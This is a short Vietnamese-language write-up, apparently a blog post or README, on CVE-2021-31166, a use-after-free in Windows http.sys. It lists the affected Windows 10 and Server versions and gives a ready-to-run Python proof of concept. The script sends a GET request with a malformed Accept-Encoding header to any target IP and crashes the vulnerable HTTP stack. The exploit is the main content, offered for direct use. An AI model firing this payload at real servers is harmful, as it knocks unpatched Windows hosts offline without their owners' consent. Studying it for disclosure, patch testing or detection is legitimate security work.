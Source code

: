 ```yaml
---
title: CVE-2021-31166
date: 16/6/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

---


## Mô Tả 

Đây là bằng chứng về khái niệm cho CVE-2021-31166 ("Lỗ hổng thực thi mã từ xa của ngăn xếp giao thức HTTP"), một điểm truy cập sử dụng sau khi miễn phí trong `http.sys` được Microsoft vá vào tháng 5 năm 2021.

Theo như tôi biết, nó chỉ có thể kích hoạt chương trình bị lỗi, hãy sử dụng nó một cách thận trọng.

--- 
## Các nền tảng bị ảnh hưởng 
+ Windows Server, version 20H2 (Server Core Installation)

+ Windows 10 Version 20H2 for ARM64-based Systems

+ Windows 10 Version 20H2 for 32-bit Systems

+ Windows 10 Version 20H2 for x64-based Systems

+ Windows Server, version 2004 (Server Core installation)

+ Windows 10 Version 2004 for x64-based Systems

+ Windows 10 Version 2004 for ARM64-based Systems

+ Windows 10 Version 2004 for 32-bit Systems

# Demo
![demo](https://raw.githubusercontent.com/0vercl0k/CVE-2021-31166/main/pics/trigger.gif)
## Python

---
```python 
# python file.py --target=ip
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('PoC for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()

```

---

## Thanks :D
